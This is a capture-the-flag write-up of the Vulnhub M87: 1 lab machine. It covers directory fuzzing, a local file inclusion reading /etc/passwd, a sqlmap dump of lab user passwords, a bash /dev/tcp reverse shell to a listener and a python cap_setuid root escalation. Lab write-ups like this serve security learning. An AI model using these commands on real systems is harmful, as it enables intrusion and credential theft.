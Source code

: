 ```yaml
---
layout: post
title:  "Vulnhub - M87: 1"
date:   2020-11-16 12:00:00 +1100
category: hacking
---
```


## Introduction
*m87 is a simple machine, created specifically to be exploited. Don't get discouraged and always Try Harder!*  

This is [M87: 1](https://www.vulnhub.com/entry/m87-1,595/) from Vulnhub. 

## Ports
We've got 3 ports - SSH on 22, HTTP on 80 and something on port 9090, but SSH is filtered so it doesn't count. 

What's 9090? It's [cockpit](https://cockpit-project.org/), a browser based server interface.

## Cockpit
I visit the site (https://192.168.1.141:9090) and we have a login page wanting linux user credentials. We don't have any. We'll return to this later.

## HTTP
The front page of the website is a login form (HTML), it wants an email address and a password. We don't have either of those things. 

I ran some gobuster scans; we can find */admin*, which has another HTML login form, and */admin/backup/index.php*, which has *another* login form.

I try some password attacks on the *admin* page with the username *admin*, but no dice. I try searching for hidden files on the webserver with extensive gobuster scans and lots of file extensions; nothing. Now what?

The login on */admin/backup/index.php* comes in the form of 

>/admin/backup/index.php?username=something&password=somethingelse

This is the main thing I took from this box - fuzz this form for other fields.

## Fuzzing
There are many ways to do this but I used Burp Suite Turbo Intruder and the */usr/share/seclists/Discovery/Web-Content/common.txt* file to find two 'extra' parameters of interest - **id** and **file**. In this case my url is:

>/admin/backup/index.php?%s

The parameter *file* gives an LFI. I read */etc/passwd* and learn our user is called *charlotte*, e.g.

``
http://192.168.1.141/admin/backup/index.php?file=../../../../../../../../../../../../etc/passwd
``

I try various things to leverage this into RCE but can't find a way, with no access to */proc/self/environ* or Apache logs etc. I also can't find an SSH key, I can't read Charlotte's bash history etc. What other options do we have? Let's try **id**:

The *id* parameter (initially) only gives me one error message:

>Connect failed: No such file or directory

I google this and it *could* be a MySQL error, or something else. It's sufficiently vague to not be definitive. I can't get it to do anything else.

### Stumped
At this point (well, after trying and failing for some time) I check a hint. In fact the *id* parameter is supposed to prompt a different error. I reboot the VM; no change. I recreate the VM from the OVA file - success! Now the *id* parameter prompts an error message about SQL syntax. So we do have a database connection here. Note that I had previously tried SQLMap on the *username* and *password* fields to no success.

Anyway, *id* may be SQL injectable. I use sqlmap in Burp Suite:

``
-u 'http://192.168.1.141:80/admin/backup/index.php?id=../../../../../../../../../../etc/passwd' -p 'id' --dump
``

And I get a bunch of users:

{% highlight shell %}
root@kali:/opt/vulnhub/m87# cat users.csv 
id,email,username,password
1,jack@localhost,jack,gae5g5a
2,ceo@localhost,ceo,5t96y4i95y
3,brad@localhost,brad,gae5g5a
4,expenses@localhost,expenses,5t96y4i95y
5,julia@localhost,julia,fw54vrfwe45
6,mike@localhost,mike,4kworw4
7,adrian@localhost,adrian,fw54vrfwe45
8,john@localhost,john,4kworw4
9,admin@localhost,admin,15The4Dm1n4L1f3
10,alex@localhost,alex,dsfsrw4
{% endhighlight %}

## Cockpit
Since SSH is filtered, we need a way to login. This is where cockpit comes in. 

None of our users are called *charlotte*, but I guessed there might be some password reuse. Sure enough, the password for admin (above) is the password for *charlotte*. So it's back to cockpit to log in. I hadn't seen this before but it's a nice enough GUI interface - and you can access a terminal, which is what I do. I then use that to send myself a shell to a netcat listener:

``
bash -i >& /dev/tcp/192.168.1.77/1234 0>&1
``

## Privesc
There's some trickery going on, because *linpeas* recognises two SUID binaries it thinks are slam dunks - *watch* and *rsync*. Although the techniques in GTFOBins work, they only give back shells as *charlotte*. So that doesn't help.

Linpeas also identifies a binary with the **cap_setuid+ep** capability - it's called */usr/bin/old*. What is it? As it turns out, it's python (2). And the technique at GTFOBins does work for that.

{% highlight shell %}
charlotte@M87:/dev/shm$ file /usr/bin/old
file /usr/bin/old
/usr/bin/old: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a59cad4ea461069ab45e846552c0dc6ed45ef466, stripped
charlotte@M87:/dev/shm$ /usr/bin/old
/usr/bin/old
Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> exit()
exit()
charlotte@M87:/dev/shm$ /usr/bin/old -c 'import os; os.setuid(0); os.system("/bin/sh")'
/usr/bin/old -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
id
uid=0(root) gid=1000(charlotte) groups=1000(charlotte),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
# cd /root/
cd /root/
# ls -lash
ls -lash
total 28K
4.0K drwx------  4 root root 4.0K Nov  6 08:36 .
4.0K drwxr-xr-x 18 root root 4.0K Nov  6 06:49 ..
   0 lrwxrwxrwx  1 root root    9 Nov  6 06:58 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K drwx------  3 root root 4.0K Nov  6 08:36 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K Nov  6 08:00 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root 1.2K Nov  6 08:36 proof.txt
# cat proof.txt
cat proof.txt

ASCII ART REMOVED

Congratulations!

mindsflee
{% endhighlight %}


## Wrapup
This box was a touch flaky - I had to reboot it a few times - and I had that issue with *id* not prompting the right error. But I did learn a lesson about fuzzing for parameters and saw cockpit for the first time.
